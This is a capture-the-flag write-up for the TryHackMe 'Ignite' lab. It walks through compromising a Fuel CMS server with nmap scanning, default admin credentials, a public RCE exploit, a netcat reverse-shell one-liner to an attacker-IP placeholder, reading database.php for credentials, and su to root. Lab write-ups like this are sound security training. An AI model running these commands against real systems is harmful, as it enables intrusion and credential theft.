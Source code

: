 # Ignite | THM
### Difficulty level: Easy
--------------------------------

Firstly, I’ll start with nmap tool for enumeration.
```bash
<nmap -sC -sV <ip-address>>
```

Results:
![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*FMjt7TYKLOmhgXswDFD_GQ.png)

There is 1 open port. This is http port and we get a http title : “welcome to FUEL CMS”.
this title telling us about which CMS this site is using.
In addition there is another header that can help us :
http-robots.txt and /fuel/.
I’ll check robots.txt file and I can find fuel directory.
when I connected to this dir there is a login page from Fuel CMS.

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*FXi2VtDQeo_SLao1OSN27Q.png)

I don't know what to do yet but so i will try to use the default credentials. 
{admin:admin} and I found myself inside the system.

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*8iVZ8ULKGNBmXJwe2-KBpg.png)

I checked for an input that I can inject there a code that will give me php reverse-shell.
I didn't find any. so it's time to search 
vulnerabilities in FUEL CMS in Metasploit. look what I found!
there is RCE vulnerability so I'm going to download it to my kali.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*sjjHCrIoPaaRJD-dJm3brA.png)

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*h_ZhDg1KviwTTAWV4OKeIw.png)

give it permissions.
```bash
chmod 777 50477.py
```
Started to read that code to understand the way it works and how to exploit with it.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*oJkyyZbOBbvy2PyMtklD2w.png)

I got type of connection and a type of shell. in that shell I tried to
execute some commands and ‘ls’ was the command that works.
so lets try to execute a reverse shell code for a real connection.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker-ip><port> >/tmp/f
```

and a netcat listener on our machine on the same port.

```bash
nc -lnvp 2222
```
then we got the wanted reverse shell.
![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*sei0zW2PoLyl5t28_uw3wg.png)

So the first command will be:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
This command gives us a better shell and comfortable to use.
next command will be ‘ls’ and flag.txt found!!!

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*tecoWBPdkdAc1DrpO7mMPA.png)

now I'm going back to the first page that appeared in this CTF and there
I can see where the database is located.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*jA8lUTk4obErtyeiPhJ0fQ.png)

```bash
cat /var/www/html/fuel/application/config/database.php
```

Results:
![image](https://miro.medium.com/v2/resize:fit:786/format:webp/1*27WqwtFZz_1O6bI3E3yfzg.png)

So, It's time to root.
```bash
su root
```

Enter the password and move to /root dir and there is the root.txt flag!
![image](https://miro.medium.com/v2/resize:fit:786/format:webp/1*OiJYtpCw6ZhYjan2tPm9MQ.png)

The end.

Happy Hacking!

**Written by Alon Presman, Penetration Tester and Ethical Hacker.**




























